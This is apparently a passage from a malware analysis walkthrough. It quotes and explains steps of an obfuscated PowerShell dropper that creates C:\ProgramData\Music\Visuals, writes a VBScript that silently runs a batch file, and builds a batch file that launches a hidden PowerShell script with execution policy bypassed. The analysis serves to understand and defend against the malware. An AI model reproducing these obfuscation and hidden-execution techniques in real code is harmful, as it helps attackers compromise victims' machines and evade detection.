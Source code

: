 
2. **Creating a Directory**

```powershell
${D} = ((("{2}{5}{4}{3}{0}{6}{1}" -f 'Datap','ualsp8P','C','ram','g',':p8PPro','8PMusicp8PVis'))-rEplAcE([CHar]112+[CHar]56+[CHar]80),[CHar]92)
```

This line constructs a path for a directory named **C:\ProgramData\Music\Visuals** by formatting and replacing specific character codes.

```powershell
&("{0}{1}"-f'New-','Item') -ItemType ("{2}{1}{0}" -f 'y','ctor','Dire') -Path ${d} -Force | &("{2}{1}{0}" -f'l','ul','Out-N')
```
Here, the script creates the directory defined in **${D}** if it doesn't already exist.


3. **Sleep Command**

```powershell
.("{0}{1}" -f'slee','p') -Seconds 5
```


4. **VBScript Content Creation**
```powershell
${co`NT`ENt} = @'
On Error Resume Next

Sub zjte
    Dim sbyjn
    Set sbyjn = CreateObject("WScript.Shell")
    sbyjn.Run "C:\ProgramData\Music\Visuals\VsEnhance.bat", 0, True
End Sub
zjte
'@
```

This block defines a VBScript subroutine that executes a batch file located at ***C:\ProgramData\Music\Visuals\VsEnhance.bat*** without displaying a window.




5. **Writing VBScript to File**

```powershell

(geT-vARiaBlE ('a'+'6P')).vAluE::("{1}{0}{3}{2}" -f'rite','W','llText','A').Invoke("$d\VsLabs.vbs" , ${CO`N`TEnT})
```
This writes the defined VBScript content to a file named VsLabs.vbs in the directory ${d}.

6. **Creating a Batch File**

```powershell

try {
    ${CO`Nt`eNT} = @'
    @echo off                              
    cmd /c Powershell -noP -W hidden -ep byPass -NONI "C:\ProgramData\Music\Visuals\VsLabsData.ps1"         
    '@
} catch {}
```

